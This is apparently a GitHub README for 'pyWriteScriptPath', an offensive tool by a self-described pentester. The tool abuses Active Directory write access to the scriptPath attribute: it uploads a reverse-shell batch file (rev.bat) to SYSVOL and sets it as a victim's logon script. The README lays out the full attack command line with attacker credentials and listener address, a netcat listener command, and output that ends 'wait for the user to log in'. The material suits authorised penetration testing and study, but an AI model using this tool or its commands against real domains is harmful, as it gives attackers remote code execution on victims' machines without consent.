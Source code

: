 # 🛠️ WriteScriptPath Abuse Tool

In Active Directory, the **scriptPath** attribute specifies a logon script that runs when a user logs in. This tool helps you upload a script to the SYSVOL share and assign it to a user’s **scriptPath** attribute, enabling automated script execution on user login — useful for administration, automation, or testing.

---

##  What Is WriteScriptPath?

In Active Directory, the `scriptPath` attribute defines a logon script that runs when a user logs in. If an attacker has **Write access to this attribute** on another user account, they can abuse it to:

- Upload a malicious script to the `\\<domain>\SYSVOL\<domain>\scripts\` share
- Set that script as the target user's logon script
- Gain **code execution** when the victim logs in

---

## ⚙️ Requirements

- Python 3.x
- `ldap3` and `impacket` Python libraries
- Valid domain user credentials with **WriteScriptPath** privilege on the target user
- Access to the Domain Controller (DC)
- A listener to catch the reverse shell (e.g. `nc -lvnp 4444`)


##  Installation

```bash
git clone https://github.com/yourname/writescriptpath-exploit.git
cd writescriptpath-exploit
pip install -r requirements.txt
````

> **Note**: `requirements.txt` should include:
>
> ```
> ldap3
> impacket
> ```


##  Usage

```bash
python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```

###  Arguments Explained

| Argument          | Description                                         |
| ----------------- | --------------------------------------------------- |
| `--domain`        | The Active Directory domain (e.g., `furious`)       |
| `--username`      | Your (attacker’s) domain username                   |
| `--password`      | The attacker's password                             |
| `--target`        | The username of the target account                  |
| `--dc-ip`         | IP address of the Domain Controller                 |
| `--listener-ip`   | Your IP (where reverse shell should connect)        |
| `--listener-port` | Port on which your listener is running (e.g., 4444) |


## ⚙️ What Happens Behind the Scenes

1.Uploads the specified script file to the SYSVOL scripts share.
 
   ```
   \\<domain>\SYSVOL\<domain>\scripts\rev.bat
   ```
2.Sets the target user’s scriptPath attribute to point to the uploaded script.

3.The script runs on the user’s next login.


##  Example

```bash
nc -lvnp 4444  # Start your listener

python3 pyWriteScriptPath.py \
  --domain furious \
  --username jake \
  --password 'Pass1234' \
  --target john \
  --dc-ip 192.168.1.10 \
  --listener-ip 192.168.1.100 \
  --listener-port 4444
```


##  Output

```
[+] Connected to LDAP
[+] Payload uploaded to SYSVOL as rev.bat
[+] scriptPath updated for user john
[+] Done. Wait for the user to log in to trigger the payload.
```


---

## 👨‍💻 Author

Munib Nawaz
Pentester & Offensive Security Researcher

---

